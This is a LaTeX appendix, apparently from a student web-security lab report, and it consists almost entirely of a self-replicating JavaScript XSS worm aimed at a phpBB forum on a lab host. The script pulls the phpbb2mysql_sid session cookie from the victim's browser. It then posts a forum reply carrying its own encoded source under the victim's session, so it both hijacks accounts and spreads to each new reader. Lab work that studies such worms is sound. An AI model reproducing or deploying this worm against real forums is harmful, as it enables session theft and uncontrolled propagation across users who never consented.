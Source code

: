 \documentclass[12pt, a4paper, pdflatex]{article}
\begin{document}
\begin{appendices}
\section{Self-replicating JavaScript for forging message.\label{app:javasc2}}

\lstset{
  captionpos=b,
  frame=single,
  language=JavaScript,
  breaklines=true,
  caption="Self-replicating JavaScript for forging message.",
  label=parta:script
}
\begin{lstlisting}
<script id=worm>
var Ajax=null;
// Construct the header information for the Http request
Ajax=new XMLHttpRequest();
Ajax.open("POST","http://www.xsslabphpbb.com/posting.php",true);
Ajax.setRequestHeader("Host","www.xsslabphpbb.com");
Ajax.setRequestHeader("Keep-Alive","300");
Ajax.setRequestHeader("Connection","keep-alive");
Ajax.setRequestHeader("Cookie",document.cookie);
Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");

// Steal cookie
var valueSearched = "phpbb2mysql_sid=";

// Find where mysql sid is 
var indexOfSid = document.cookie.indexOf(valueSearched);

// Move the string behind mysql_sid=
indexOfSid = indexOfSid - (-valueSearched.length);

// Check if there is a semicolon at the end, we only want one parameter from cookie
var semicolonIndex = document.cookie.indexOf(";", indexOfSid);

var stolenCookie = "";

if(semicolonIndex == -1) {
  stolenCookie = document.cookie.slice(indexOfSid);
} else {
  stolenCookie = document.cookie.slice(indexOfSid, semicolonIndex);
}

// Construct the content. The format of the content can be learned
// from LiveHttpHeader. All we need to fill is subject, message, and sid.
var content="subject=XSSWorm"; // You need to fill in the details.

// Add message body
content = content.concat("&message=Attack");

// Script tags have to be encoded, otherwise script won't be valid
// When passed in request string
var strCode = document.getElementById("worm");
var beg = "%3Cscript id=worm%3E";
var end = "%3C/script%3E";
var urlEncSample = beg.concat( escape(strCode.innerHTML), end);

// Set the script to be content of the request
content = content.concat(urlEncSample);

// Choose topic number
content = content.concat("&t=8");

// Add session id stolen from cookie
content = content.concat("&sid=", stolenCookie); // e.g. 642b0037b1b4f81a4141e8fb505e50f6

// Specify posting mode, here we want to reply
content = content.concat("&mode=reply");
content = content.concat("&post=Submit");
// Send the HTTP POST request.
Ajax.send(content);
</script>
\end{lstlisting}


\end{appendices}
\end{document}
